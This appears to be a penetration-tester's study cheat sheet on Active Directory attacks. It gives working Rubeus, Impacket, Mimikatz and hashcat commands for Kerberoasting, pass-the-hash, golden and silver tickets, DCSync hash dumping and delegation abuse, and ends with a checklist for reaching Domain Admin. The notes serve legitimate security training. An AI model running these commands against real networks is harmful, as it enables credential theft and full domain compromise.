

# 👑 Active Directory Attacks

> [!info] Domain Domination
> AD is the backbone of corporate networks. Compromise AD = compromise everything.

---

## 🎯 AD Attack Chain



---

## 🔍 AD Enumeration

### PowerView (Best PowerShell Recon)

```powershell
# Download: https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

. .\PowerView.ps1

# Get domain info
Get-Domain
Get-DomainController

# Enumerate users
Get-DomainUser
Get-DomainUser | Where-Object {$_.PrimaryGroupID -eq 512}  # Domain Admins

# Enumerate groups
Get-DomainGroup
Get-DomainGroupMember -Identity "Domain Admins"

# Enumerate computers
Get-DomainComputer

# Check for unconstrained delegation
Get-DomainComputer -Unconstrained

# Find machines running specific services
Get-DomainUser -SPN
```

### BloodHound (Visual Graph)

```bash
# SharpHound (collector) - run on domain machine
.\SharpHound.exe -c All

# BloodHound (visualizer) - upload data on attacking machine
# Download BloodHound GUI from https://github.com/BloodHoundAD/BloodHound
# Upload .zip file
# Visualize attack paths
```

### ldapdomaindump (LDAP Enumeration)

```bash
ldapdomaindump -u DOMAIN\\user -p password TARGET
# Generates HTML reports with all domain info
```

---

## 🔑 1. Kerberoasting (TGS Cracking)

**What:** Extract TGS tickets from service accounts → crack offline

### Exploitation

```powershell
# Using Rubeus (best tool)
.\Rubeus.exe kerberoast /outfile:tickets.txt

# Using Impacket
GetUserSPNs.py -request DOMAIN/user:password

# Crack with hashcat
hashcat -m 13100 tickets.txt rockyou.txt
```

### Why It Works

```
1. Service Account = runs with elevated privileges
2. TGS ticket encrypted with service account password
3. Attacker can crack password offline
4. Result: Service account credentials = often admin
```

---

## 🔓 2. AS-REP Roasting (No Preauth)

**What:** Extract AS-REP ticket from accounts without preauth → crack offline

### Find Vulnerable Accounts

```powershell
# PowerView
Get-DomainUser -PreauthNotRequired

# Or Impacket
GetNPUsers.py DOMAIN/ -usersfile users.txt -dc-ip TARGET
```

### Exploitation

```bash
# Impacket
GetNPUsers.py DOMAIN/ -no-pass -dc-ip TARGET

# Rubeus
.\Rubeus.exe asreproast /outfile:as_rep_hashes.txt

# Crack
hashcat -m 18200 as_rep_hashes.txt rockyou.txt
```

---

## 🔄 3. Pass-the-Hash (PtH)

**What:** Use NTLM hash directly without plaintext password

### Usage

```bash
# Impacket psexec
psexec.py DOMAIN/user:aad3b435b51404eeaad3b435b51404ee@TARGET

# Mimikatz
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:cmd
```

---

## 🎫 4. Golden Ticket

**What:** Forge TGT (Ticket Granting Ticket) = access to entire domain

### Prerequisites

```
1. KRBTGT password hash (from DCSync)
2. Domain SID (from any user)
3. Domain name
```

### Exploitation (Mimikatz)

```cmd
# Get KRBTGT hash (need DCSync privilege)
lsadump::dcsync /domain:DOMAIN /all /csv

# Create golden ticket
kerberos::golden /user:Administrator /domain:DOMAIN /sid:S-1-5-21-... /krbtgt:HASH /ticket:golden.kirbi

# Use ticket
kerberos::ptt golden.kirbi

# Now access domain as admin
```

---

## 🎟️ 5. Silver Ticket

**What:** Forge TGS (Ticket Granting Service) = access to specific service

### Exploitation

```cmd
# Simpler than golden, works for specific services
kerberos::silver /user:Administrator /domain:DOMAIN /sid:S-1-5-21-... /service:cifs /server:TARGET /rc4:HASH /ticket:silver.kirbi

kerberos::ptt silver.kirbi
```

---

## 🔐 6. DCSync (Dump All Domain Credentials)

**What:** Replicating DC credentials → dump all hashes

### Requirements

```
- Replicating Directory Changes privilege
- Usually: Domain Admin or equivalent
```

### Exploitation (Mimikatz)

```cmd
lsadump::dcsync /domain:DOMAIN /all /csv
```

### Impacket

```bash
secretsdump.py DOMAIN/user:password@TARGET
```

### Result

```
KRBTGT hash
Administrator hash
All user hashes
```

---

## 🔑 7. Overpass-the-Hash (OPtH)

**What:** Convert NTLM hash to Kerberos ticket

### Process

```
1. Have NTLM hash
2. Convert to TGT using Kerberos
3. Use TGT for domain access
```

### Mimikatz

```cmd
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:powershell

# In new PowerShell:
klist                      # Show kerberos tickets
```

---

## 🔄 8. Constrained Delegation Abuse

**What:** Service account with delegation → impersonate users

### Detection

```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

### Exploitation

```
1. Compromise account with delegation
2. Generate TGT for target user
3. Get TGS for service
4. Impersonate as admin
```

---

## 🔓 9. Unconstrained Delegation Abuse

**What:** Computer with unconstrained delegation = can impersonate anyone

### Detection

```powershell
Get-DomainComputer -Unconstrained
```

### Exploitation

```
1. Compromise unconstrained delegation computer
2. Lure DA to visit machine
3. Capture DA's TGT
4. Create golden ticket
```

---

## 📋 AD Exploitation Checklist

- [ ] Enumerate domain (PowerView)
- [ ] Look for Kerberoastable accounts
- [ ] Check for AS-REP roastable accounts
- [ ] Test for unconstrained delegation
- [ ] Check user descriptions for passwords
- [ ] Review group memberships (especially nested groups)
- [ ] Look for privilege delegation abuse
- [ ] Attempt lateral movement
- [ ] Escalate to Domain Admin
- [ ] Dump all domain hashes (DCSync)

---

## 💡 Pro Tips

> [!tip] Bloodhound is KEY
> Visualizing attack paths with BloodHound speeds up exploitation significantly.

> [!tip] Kerberoasting is Easy
> Easiest wins in AD. Always run it first.

---

**Related Notes:**
- [[03-Windows/Windows-Privesc|🪟 Windows Privilege Escalation]]

---
